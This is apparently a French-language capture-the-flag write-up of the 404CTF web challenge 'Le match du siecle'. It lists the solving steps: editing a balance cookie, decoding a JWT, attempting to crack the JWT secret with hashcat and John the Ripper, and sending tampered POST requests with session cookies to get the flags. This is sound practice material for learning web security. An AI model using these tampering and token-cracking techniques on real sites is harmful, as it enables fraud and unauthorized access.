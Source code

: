 1/2

s'inscrire sur le site

des cookies apparaissent une fois connecte

modifier le cookie balance a 40 et prendre un ticket a 40

visiter la section des billets -> telecharger le billet === flag

flag.png

---------

2/2

coup d'oeil sur le code js

/achat -> argument "numero"

recherche de .post(" dans le code

tentative de "numero" = "VIP"

vu dans le code d'un message en cas de detection d'un hacker response=3

analyse du JWT

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IlQzc3RhYnRlc3QiLCJiaWxsZXRzIjp7IlZJUCI6MCwiTGF0ZXJhbGUiOjQsIkZhbWlsaWFsZSI6MCwiRXN0IjowLCJPdWVzdCI6MCwiTm9yZCBldCBTdWQiOjAsInVuZGVmaW5lZCI6bnVsbCwiVHJpYnVuZSBWSVAiOm51bGx9LCJpYXQiOjE3MTM2NTU0ODl9._gN0ig9u4PgIC1dxwBceuJqG1XQz5ToPe2qCpdmvRmw
```

payload

```
{
  "username": "T3stabtest",
  "billets": {
    "VIP": 0,
    "Laterale": 4,
    "Familiale": 0,
    "Est": 0,
    "Ouest": 0,
    "Nord et Sud": 0,
    "undefined": null,
    "Tribune VIP": null
  },
  "iat": 1713655489
}
```

Tentative de forger un JWT

header

```
{
  "alg": "HS256",
  "typ": "JWT"
}
```

install de kali pour avoir hashcat et wordlists

on place le JWT dans jwt_token.txt

https://jwt.io/

mm si c'est du RS256, on tests juste in case

https://security.stackexchange.com/a/262875

```
hashcat -m 16500 -a 0 jwt_token.txt /usr/share/wordlists/rockyou.txt
```
output
```
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================       
* Device #1: cpu-haswell-Intel(R) Core(TM) i9-14900K, 10902/21869 MB (4096 MB allocatable), 32MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashfile 'jwt_token.txt' on line 1 (eyJhbG...hFXVmCTzS8h2i2EYjwFufTkgMBdpfkJw): Token length exception

* Token length exception: 1/1 hashes
  This error happens if the wrong hash type is specified, if the hashes are
  malformed, or if input is otherwise not as expected (for example, if the
  --username option is used but no username is present)

No hashes loaded.

Started: Sun Apr 21 02:05:15 2024
Stopped: Sun Apr 21 02:05:15 2024

```

Ca a pas l'air d'etre ca

on s'obstine avec john the ripper

```
john jwt_token.txt -w=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256
```
output
```
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 32 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:02 DONE (2024-04-21 02:05) 0g/s 5878Kp/s 5878Kc/s 5878KC/s -xlengx-..*7¡Vamos!
Session completed.
```

Peut etre du masse assignement

OPTIONS -> tout est ouvert mais a par POST, rien ne repond

400 sur un POST avec un "numero" = "VIP"
```
{
  "message": "Hacker Détecté"
}
```

On revient sur le js
/billets avec arg "token" donne la liste -> semble decoder le token

une autre page reste intrigante -> /riche -> qui semble produire le second flag `(t, "flag.png")`

Faut bien forger le JWT ??

Sans forger le JWT on tombe sur le flag precedent
```
POST https://le-match-du-siecle.challenges.404ctf.fr/api/riche
Content-Type: application/json
Accept: application/json
Cookie: balance=1000;session=c40d13a6-0d95-47ec-8e76-4908c60bb759.t2VbC6BDSBywggHUqOIIIc4eA3Q;token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IlQzc3RhYnRlc3QiLCJiaWxsZXRzIjp7IlZJUCI6MCwiTGF0ZXJhbGUiOjQsIkZhbWlsaWFsZSI6MCwiRXN0IjowLCJPdWVzdCI6MCwiTm9yZCBldCBTdWQiOjAsInVuZGVmaW5lZCI6bnVsbCwiVHJpYnVuZSBWSVAiOm51bGx9LCJpYXQiOjE3MTM2NTcwODl9.W-wuSBe5T3v_2t5_Ycauqq3NI5TcTj_lfGue4RyCMMMAleqTxCSXVKYs07A9VxXjhef_SwX15Gw8fED5T9fAN5rFD6Lv8dvwcQGVM_Bq2hwx08Je_FAVtezlHjIT19VC7MXG3ljdUGGdGMOrYcnknKd-leutXMErcdQzS3qUMUjm8LBXYD75FQBOrs8FyfcHxIPXc6hyf5DOTuPzGs7IPgDVARYAfZgejO6YEXeLWM63R17I26I1TGvEKycdKGxfrT28I2sqMlucGkeVqFtNre_rjVHUwQx5bD9tSGESvW2M3iDrTUzk2YhFXVmCTzS8h2i2EYjwFufTkgMBdpfkJw

{
  "token": "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IlQzc3RhYnRlc3QiLCJiaWxsZXRzIjp7IlZJUCI6MCwiTGF0ZXJhbGUiOjQsIkZhbWlsaWFsZSI6MCwiRXN0IjowLCJPdWVzdCI6MCwiTm9yZCBldCBTdWQiOjAsInVuZGVmaW5lZCI6bnVsbCwiVHJpYnVuZSBWSVAiOm51bGx9LCJpYXQiOjE3MTM2NTcwODl9.W-wuSBe5T3v_2t5_Ycauqq3NI5TcTj_lfGue4RyCMMMAleqTxCSXVKYs07A9VxXjhef_SwX15Gw8fED5T9fAN5rFD6Lv8dvwcQGVM_Bq2hwx08Je_FAVtezlHjIT19VC7MXG3ljdUGGdGMOrYcnknKd-leutXMErcdQzS3qUMUjm8LBXYD75FQBOrs8FyfcHxIPXc6hyf5DOTuPzGs7IPgDVARYAfZgejO6YEXeLWM63R17I26I1TGvEKycdKGxfrT28I2sqMlucGkeVqFtNre_rjVHUwQx5bD9tSGESvW2M3iDrTUzk2YhFXVmCTzS8h2i2EYjwFufTkgMBdpfkJw"
}
```

sur /riche, le token n'est pas le JWT mais le tipe de billet

```
POST https://le-match-du-siecle.challenges.404ctf.fr/api/riche
Content-Type: application/json
Accept: application/json
Cookie: balance=1000;session=c40d13a6-0d95-47ec-8e76-4908c60bb759.t2VbC6BDSBywggHUqOIIIc4eA3Q;token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IlQzc3RhYnRlc3QiLCJiaWxsZXRzIjp7IlZJUCI6MCwiTGF0ZXJhbGUiOjQsIkZhbWlsaWFsZSI6MCwiRXN0IjowLCJPdWVzdCI6MCwiTm9yZCBldCBTdWQiOjAsInVuZGVmaW5lZCI6bnVsbCwiVHJpYnVuZSBWSVAiOm51bGx9LCJpYXQiOjE3MTM2NTcwODl9.W-wuSBe5T3v_2t5_Ycauqq3NI5TcTj_lfGue4RyCMMMAleqTxCSXVKYs07A9VxXjhef_SwX15Gw8fED5T9fAN5rFD6Lv8dvwcQGVM_Bq2hwx08Je_FAVtezlHjIT19VC7MXG3ljdUGGdGMOrYcnknKd-leutXMErcdQzS3qUMUjm8LBXYD75FQBOrs8FyfcHxIPXc6hyf5DOTuPzGs7IPgDVARYAfZgejO6YEXeLWM63R17I26I1TGvEKycdKGxfrT28I2sqMlucGkeVqFtNre_rjVHUwQx5bD9tSGESvW2M3iDrTUzk2YhFXVmCTzS8h2i2EYjwFufTkgMBdpfkJw

{
  "token": "VIP"
}
```

flag 2 -> 

